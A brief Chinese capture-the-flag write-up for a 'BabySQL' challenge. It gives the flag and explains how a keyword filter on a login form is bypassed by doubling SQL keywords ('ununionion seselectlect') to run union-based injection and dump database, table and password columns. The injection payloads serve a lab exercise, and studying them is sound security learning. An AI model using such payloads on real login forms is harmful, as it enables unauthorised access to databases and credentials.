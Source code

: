 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 访问环境，`username=admin' or 1=1 -- -&password=1`万能密码失效，根据报错提示or被过滤了。多次测试后，通过双写绕过关键字过滤，`username=admin' ununionion seselectlect 1,2,3 -- -&password=1`。  
2. 题目现在开始基本与LoveSQL类似了，开始爆数据库、数据表、字段。 
   - geek
   - b4bsql,geekuser 
   - `username=-1' ununionion seselectlect 1,group_concat(passwoorrd),3 frofromm b4bsql -- -&password=1`
   - b4bsql表字段：id,username,password
   ![](../images/babysql-1.png)

